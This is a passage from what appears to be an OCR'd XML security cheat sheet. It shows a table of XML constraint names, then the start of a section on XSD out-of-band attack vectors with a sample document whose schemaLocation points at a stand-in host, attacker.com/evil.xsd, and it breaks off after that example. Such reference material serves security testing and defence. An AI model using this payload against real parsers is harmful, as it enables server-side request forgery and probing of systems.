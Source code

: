     | [VC: Attribute Default Value Syntactically Correct] | [VC: No Notation on Empty Element]          | [WFC: Element Type Match]            |
    | [VC: Attribute Value Type]                          | [VC: Notation Attributes]                   | [WFC: Entity Declared]               |
    | [VC: Element Valid]                                 | [VC: Notation Declared]                     | [WFC: Entity Declared]               |
    | [VC: Entity Declared]                               | [VC: One ID per Element Type]               | [WFC: External Subset]               |
    | [VC: Entity Name]                                   | [VC: One Notation Per Element Type]         | [WFC: In DTD]                        |
    | [VC: Enumeration]                                   | [VC: Proper Conditional Section/PE Nesting] | [WFC: Legal Character]               |
    | [VC: Fixed Attribute Default]                       | [VC: Proper Declaration/PE Nesting]         | [WFC: No < in Attribute Values]      |
    | [VC: ID Attribute Default]                          | [VC: Proper Group/PE Nesting]               | [WFC: No External Entity References] |
    | [VC: IDREF]                                         | [VC: Required Attribute]                    | [WFC: No Recursion]                  |
    | [VC: ID]                                            | [VC: Root Element Type]                     | [WFC: PE 3etween Declarations]       |
    | [VC: Name Token]                                    | [VC: Standalone Document Declaration]       | [WFC: PEs in Internal Subset]        |
    | [VC: No Duplicate Tokens]                           | [VC: Unique Element Type Declaration]       | [WFC: Parsed Entity]                 |
    | [VC: No Duplicate Types]                            | [VC: Unique Notation Name]                  | [WFC: Unique Att Spec]               |

    </div>
    </div>

<br>

---

### XSD attack vectors

- **Out-Of-Band** - XSD permits to make remote requests (or local files requests)

    Several ways to make request *(usually xsd is positioned in XML schema documents (doc.xsd), but some directives are placed in XML file directly)*:

    - **schemaLocation**

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xml</i>
        </div><div class="spoiler-text" markdown="1">

            <document xmlns="http://any.namespace.name/like.url" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://any.namespace.name/like.url http://attacker.com/evil.xsd">text</document>

        </div>
        </div>

    - **noNamespaceSchemaLocation**

        <div class="spoiler"><div class="spoiler-title">
            <i>document.xml</i>
        </div><div class="spoiler-text" markdown="1">

